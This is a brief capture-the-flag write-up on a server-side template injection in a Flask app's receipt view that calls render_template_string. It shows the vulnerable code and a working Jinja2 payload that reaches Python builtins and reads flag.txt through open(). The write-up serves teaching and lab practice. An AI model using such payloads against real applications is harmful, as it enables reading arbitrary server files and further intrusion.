

## Writeup



There is a [SSTI](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection) attack possible inside `src/app/routes/store.py` in `receipt` view.
```
# src/app/routes/store.py
def receipt():
...
    try:
        return render_template_string(template)
    except Exception as e:
        flash(f"An error occurred: {str(e)}", "danger")
        return render_template_string(f"<p>Receipt could not be processed: {str(e)}</p>")
```

`render_template_string` is vulnearable to it and I just want to share a great post about it covering all external links and resources https://medium.com/@Fcmam5/ctf-as-a-developer-pt-1-template-engines-ssti-b03c59e2c095.

We can reach to builtins and call open function with returning its content
```
{{ request.application.__globals__.__builtins__.open("flag.txt").read() }}
```
